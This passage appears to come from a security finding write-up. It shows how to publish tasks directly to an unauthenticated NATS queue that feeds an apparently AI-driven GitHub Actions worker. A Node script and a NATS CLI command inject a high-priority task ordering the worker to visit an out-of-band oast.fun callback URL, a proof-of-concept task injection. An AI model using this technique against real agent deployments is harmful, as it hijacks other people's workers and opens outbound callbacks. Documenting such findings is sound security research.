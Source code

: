 ### Option 2: Manually Publish Tasks via NATS

Install NATS CLI or Node.js client and publish directly:

```bash
# Install NATS Node.js client
cd /root/mcp-setup/mcp-manager
npm install nats

# Create publish script
node << 'EOFJS'
const { connect } = require('nats');

async function publishTask() {
  const nc = await connect({ servers: 'nats://localhost:4222' });
  
  const task = {
    task_id: 'manual-task-123',
    description: 'Visit https://asdfazrcdfgqoiuibvkf934exsjcoluvq.oast.fun',
    priority: 'high'
  };
  
  // Publish to GitHub worker
  nc.publish('worker.task.github-actions-worker-18962919292-1', JSON.stringify(task));
  console.log('✅ Task published!');
  
  await nc.drain();
}

publishTask();
EOFJS
```

### Option 3: Use NATS CLI

```bash
# Install NATS CLI
curl -L https://github.com/nats-io/natscli/releases/latest/download/nats-0.0.35-linux-amd64.tar.gz | tar xz
sudo mv nats /usr/local/bin/

# Publish task
nats pub worker.task.github-actions-worker-18962919292-1 \
  '{"task_id":"test-123","description":"Visit https://example.com","priority":"high"}'
```

---

## 📝 Conclusion

### Key Findings
